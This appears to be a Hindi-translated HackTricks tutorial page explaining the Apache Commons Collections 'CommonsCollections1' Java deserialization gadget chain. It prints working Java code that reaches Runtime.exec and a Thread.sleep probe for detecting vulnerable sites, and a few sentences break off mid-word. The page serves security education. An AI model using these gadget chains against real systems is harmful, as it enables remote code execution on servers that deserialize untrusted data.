 # CommonsCollection1 पेलोड - जावा ट्रांसफॉर्मर्स से Rutime exec() और Thread Sleep

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

* क्या आप **साइबर सुरक्षा कंपनी** में काम करते हैं? क्या आप अपनी **कंपनी का हैकट्रिक्स में विज्ञापित देखना चाहते हैं**? या क्या आप **PEASS के नवीनतम संस्करण या हैकट्रिक्स को पीडीएफ में डाउनलोड करना चाहते हैं**? [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) की जांच करें!
* [**दी पीएस फैमिली**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**एनएफटीज़**](https://opensea.io/collection/the-peass-family) संग्रह
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* **शामिल हों** [**💬**](https://emojipedia.org/speech-balloon/) [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या मुझे **ट्विटर** पर फॉलो करें 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **अपने हैकिंग ट्रिक्स साझा करें, [हैकट्रिक्स रेपो](https://github.com/carlospolop/hacktricks) और [हैकट्रिक्स-क्लाउड रेपो](https://github.com/carlospolop/hacktricks-cloud) में पीआर जमा करके**.

</details>

## जावा ट्रांसफॉर्मर्स से Rutime exec()

कई स्थानों पर आप एक जावा डेसीरियलाइज़ेशन पेलोड पा सकते हैं जो अपाचे कॉमन कलेक्शन्स से ट्रांसफॉर्मर्स का उपयोग करता है जैसे निम्नलिखित:
```java
import org.apache.commons.*;
import org.apache.commons.collections.*;
import org.apache.commons.collections.functors.*;
import org.apache.commons.collections.map.*;
import java.io.*;
import java.lang.reflect.InvocationTargetException;
import java.util.Map;
import java.util.HashMap;

public class CommonsCollections1PayloadOnly {
public static void main(String... args) {
String[] command = {"calc.exe"};
final Transformer[] transformers = new Transformer[]{
new ConstantTransformer(Runtime.class), //(1)
new InvokerTransformer("getMethod",
new Class[]{ String.class, Class[].class},
new Object[]{"getRuntime", new Class[0]}
), //(2)
new InvokerTransformer("invoke",
new Class[]{Object.class, Object[].class},
new Object[]{null, new Object[0]}
), //(3)
new InvokerTransformer("exec",
new Class[]{String.class},
command
) //(4)
};
ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
Map map = new HashMap<>();
Map lazyMap = LazyMap.decorate(map, chainedTransformer);

//Execute gadgets
lazyMap.get("anything");
}
}
```
अगर आप जावा डीसीरियलाइज़ेशन पेलोड के बारे में कुछ नहीं जानते हैं तो यह समझना कठिन हो सकता है कि यह कोड क्यों एक कैल्क को निष्पादित करेगा।

सबसे पहले आपको यह जानना चाहिए कि जावा में **Transformer** एक ऐसी चीज है जो **एक क्लास को प्राप्त** करती है और **उसे एक दूसरे के लिए रूपांतरित** करती है।\
इसके अलावा यह दिलचस्प है कि यहाँ **निष्पादित पेलोड** **समतुल्य** है:
```java
Runtime.getRuntime().exec(new String[]{"calc.exe"});
```
या **अधिक सटीकता से**, आखिर में क्या निष्पादित होगा:
```java
((Runtime) (Runtime.class.getMethod("getRuntime").invoke(null))).exec(new String[]{"calc.exe"});
```
### कैसे

तो, पहले पेलोड में कैसे प्रस्तुत है जो उन "सरल" एक-लाइनर्स के समान हैं?

**पहली** बात तो यह है कि पेलोड में एक **ट्रांसफॉर्म की श्रृंखला (एरे) बनाई गई है**:
```java
String[] command = {"calc.exe"};
final Transformer[] transformers = new Transformer[]{
//(1) - Get gadget Class (from Runtime class)
new ConstantTransformer(Runtime.class),

//(2) - Call from gadget Class (from Runtime class) the function "getMetod" to obtain "getRuntime"
new InvokerTransformer("getMethod",
new Class[]{ String.class, Class[].class},
new Object[]{"getRuntime", new Class[0]}
),

//(3) - Call from (Runtime) Class.getMethod("getRuntime") to obtain a Runtime oject
new InvokerTransformer("invoke",
new Class[]{Object.class, Object[].class},
new Object[]{null, new Object[0]}
),

//(4) - Use the Runtime object to call exec with arbitrary commands
new InvokerTransformer("exec",
new Class[]{String.class},
command
)
};
ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
```
यदि आप कोड पढ़ें तो आप देखेंगे कि यदि आप किसी भावी आदेशों को निषेधित करने के लिए सरणी के परिवर्तनों को किसी प्रकार जोड़ते हैं तो आप विचार कर सकते हैं।

तो, **वे परिवर्तन कैसे जोड़े जाते हैं?**
```java
Map map = new HashMap<>();
Map lazyMap = LazyMap.decorate(map, chainedTransformer);
lazyMap.get("anything");
```
आप पेयलोड के अंतिम खंड में देख सकते हैं कि एक **Map object बनाया गया है**। फिर, `decorate` फ़ंक्शन `LazyMap` से मानचित्र ऑब्ज
```java
protected LazyMap(Map map, Transformer factory) {
super(map);
if (factory == null) {
throw new IllegalArgumentException("Factory must not be null");
}
this.factory = factory;
}
```
और फिर महान समापन को क्रियान्वित किया जाता है: `lazyMap.get("anything");`

यह `get` फ़ंक्शन का कोड है:
```java
public Object get(Object key) {
if (map.containsKey(key) == false) {
Object value = factory.transform(key);
map.put(key, value);
return value;
}
return map.get(key);
}
```
और यह है `transform` फ़ंक्शन का कोड
```java
public Object transform(Object object) {
for (int i = 0; i < iTransformers.length; i++) {
object = iTransformers[i].transform(object);
}
return object;
}
```
इसलिए, याद रखें कि **फैक्टरी** के अंदर हमने **`chainedTransformer`** को सहेजा था और **`transform`** फ़ंक्शन के अंदर हम **सभी उन ट्रांसफ़ॉर्मर्स के माध्यम से जा रहे हैं जो एक के बाद एक चेन किए गए हैं** और एक के बाद एक को क्रियान्वित कर रहे हैं। मजेदार बात यह है कि **प्रत्येक ट्रांसफ़ॉर्मर `object` का उपयोग कर रहा है** और **ऑब्ज
```java
Object value = "someting";

value = new ConstantTransformer(Runtime.class).transform(value); //(1)

value = new InvokerTransformer("getMethod",
new Class[]{ String.class, Class[].class},
new Object[]{"getRuntime", null}
).transform(value); //(2)

value = new InvokerTransformer("invoke",
new Class[]{Object.class, Object[].class},
new Object[]{null, new Object[0]}
).transform(value); //(3)

value = new InvokerTransformer("exec",
new Class[]{String.class},
command
).transform(value); //(4)
```
_ध्यान दें कि `value` प्रत्येक transform का इनपुट है और पिछले transform का आउटपुट है, जिससे एक-लाइनर का निष्पादन संभव होता है:_
```java
((Runtime) (Runtime.class.getMethod("getRuntime").invoke(null))).exec(new String[]{"calc.exe"});
```
ध्यान दें कि यहाँ **उन गैजेट्स की व्याख्या की गई थी** जो **ComonsCollections1** पेलोड के लिए उपयोग किए गए थे। लेकिन यह छूट गई है **कि यह सब कैसे आरंभ होता है**। आप यहाँ देख सकते हैं [कि **ysoserial**](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections1.java), इस पेलोड को निष्पादित करने के लिए, एक `AnnotationInvocationHandler` ऑब्जेक्ट का उपयोग करता है क्योंकि **जब इस ऑब्जेक्ट को डीसीरियलाइज़ किया जाता है**, तो यह **`payload.get()` फ़ंक्शन को आमंत्रित करेगा** जो **पूरे पेलोड को निष्पादित करेगा**।

## जावा थ्रेड स्लीप

यह पेलोड **हैंडी हो सकता है ताकि पता लगाया जा सके कि क्या वेब कमजोर है क्योंकि यह एक स्लीप को निष्पादित करेगा अगर यह है**।
```java
import org.apache.commons.*;
import org.apache.commons.collections.*;
import org.apache.commons.collections.functors.*;
import org.apache.commons.collections.map.*;
import java.io.*;
import java.lang.reflect.InvocationTargetException;
import java.net.MalformedURLException;
import java.net.URL;
import java.util.Map;
import java.util.HashMap;

public class CommonsCollections1Sleep {
public static void main(String... args) {
final Transformer[] transformers = new Transformer[]{
new ConstantTransformer(Thread.class),
new InvokerTransformer("getMethod",
new Class[]{
String.class, Class[].class
},
new Object[]{
"sleep", new Class[]{Long.TYPE}
}),
new InvokerTransformer("invoke",
new Class[]{
Object.class, Object[].class
}, new Object[]
{
null, new Object[] {7000L}
}),
};

ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
Map map = new HashMap<>();
Map lazyMap = LazyMap.decorate(map, chainedTransformer);

//Execute gadgets
lazyMap.get("anything");

}
}
```
## अधिक गैजेट

आप यहाँ अधिक गैजेट्स पा सकते हैं: [https://deadcode.me/blog/2016/09/02/Blind-Java-Deserialization-Commons-Gadgets.html](https://deadcode.me/blog/2016/09/02/Blind-Java-Deserialization-Commons-Gadgets.html)

##

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* क्या आप **साइबर सुरक्षा कंपनी** में काम करते हैं? क्या आप अपनी **कंपनी को HackTricks में विज्ञापित देखना चाहते हैं**? या क्या आपको **PEASS के नवीनतम संस्करण या HackTricks को PDF में डाउनलोड करने का एक्सेस चाहिए**? [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) की जाँच करें!
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* **शामिल हों** [**💬**](https://emojipedia.org/speech-balloon/) [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या **मुझे** ट्विटर पर **फॉलो** करें 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **अपने हैकिंग ट्रिक्स साझा करें, [hacktricks रेपो](https://github.com/carlospolop/hacktricks) और [hacktricks-cloud रेपो](https://github.com/carlospolop/hacktricks-cloud) में PR जमा करके**।

</details>
